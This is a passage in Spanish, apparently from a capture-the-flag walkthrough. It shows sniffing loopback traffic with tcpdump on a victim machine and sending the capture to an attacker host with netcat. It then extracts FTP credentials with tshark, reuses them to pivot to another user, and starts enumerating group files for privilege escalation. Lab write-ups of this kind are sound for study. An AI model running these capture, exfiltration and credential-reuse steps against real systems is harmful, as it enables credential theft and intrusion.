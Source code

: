 con `tpcdump -D` veremos las interfaces disponibles.

escogeremos la interfaz loopback, puesto que aveces podemos llegar a interceptar muchas mas cosas que en las otras interfaces.

con el comando `tcpdump -i lo -w Captura.cap -v` capturaremos los paquetes y depositaremos el output en el archivo Captura.cap con el parámetro -v de verbose para ver si se han capturado paquetes.

una vez capturado el paquete, usaremos netcat para enviar el archivo a nuestra maquina y asi poder examinarlo.

con el comando `nc <direccion_ip <puerto> < archivo.cap` desde la maquina victima.

y con el comando `nc -lvnp 443 > archivo.cap` desde nuestra maquina atacante, nos enviaremos el archivo.

*puesto que ftp carece de integridad de datos, podemos aplicar al archivo el comando `md5sum` para comprobar si el hash del archivo de destino es el mismo que el archivo de origen*

una vez tengamos el archivo, utilizaremos tshark con el siguiente comando `tshark -r archivo.cap -Y "ftp"` para que nos muestre los paquetes capturados.

utilizamos el parámetro **-Y** para filtrar por ftp.
______
![](attachment/4a7c19d0b78247ca40e3cb3a6c2b4118.png)
____
vemos que tenemos un usuario y una contraseña, las cuales apuntaremos y probaremos para tratar de hacer pivoting entre usuarios.
____
![](attachment/822562364fa8e366d0efd371266b75b5.png)
_____
ahí podemos ver que ahora somos usuario hades, por lo que debemos explorar que vías potenciales tenemos para escalar privilegios.
___
![](attachment/ef6e4c50193466957a1f5cb27d5a96e3.png)
____
si hacemos un id vemos que estamos en un grupo llamado gods, por lo que veremos que archivos hay asignados a ese grupo con el comando `find \-group gods 2>/dev/null`.
